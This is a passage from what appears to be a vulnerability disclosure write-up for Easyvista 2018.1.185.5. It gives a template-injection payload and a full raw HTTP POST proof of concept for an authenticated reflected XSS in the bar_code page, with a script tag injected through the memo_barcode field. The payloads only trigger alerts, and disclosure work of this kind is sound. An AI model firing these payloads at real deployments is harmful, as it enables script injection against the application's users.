 

>Note : The menu is called in loop, so if you make `alert(1)` after ~30 XSS, the App will be unusable.


The payload `{{constructor.constructor('alert(1)')()}}`




## Easyvista 2018.1.185.5 - CVE-XXX 

* Description : Allow attacker to inject arbitrary malicious HTML or Javascripts code in user web browser
* Affected version : 2018.1.185.5

### Information

To make this PoC, I just installed the software (`https://www.easyvista.com/`)

* Vulnerability Type : XSS Reflected ( Authentificated )

### POC 

There is an exemple with alert into `bar_code` page: 

```
POST /include/bar_code.php?PHPSESSID=6314962ba5a60b891ef7864644d901a1&internalurltime=1600091040&alias=Intitul%C3%A9 HTTP/1.1
Host: xxxx.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://xxxx.com/include/bar_code.php?PHPSESSID=7314962ba5a60b891ef7864644d801a2&alias=Intitul%C3%A9
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https:://xxxx.com
Connection: close
Cookie: PHPSESSID=7314962ba5a60b891ef7864644d801a2; ezv_theme=light-default; menu_type=global; uid_861b0cfd443c6e0b363709f6836824419c5=1600090871; uid_73d5682f9dbe5f8a9a0fddba0d449b8921e97709=1600091040; cookie_account=50004
Upgrade-Insecure-Requests: 1

memo_barcode=</script><script>alert(1)</script>&comboSeparator=TAB
```

### Preview 
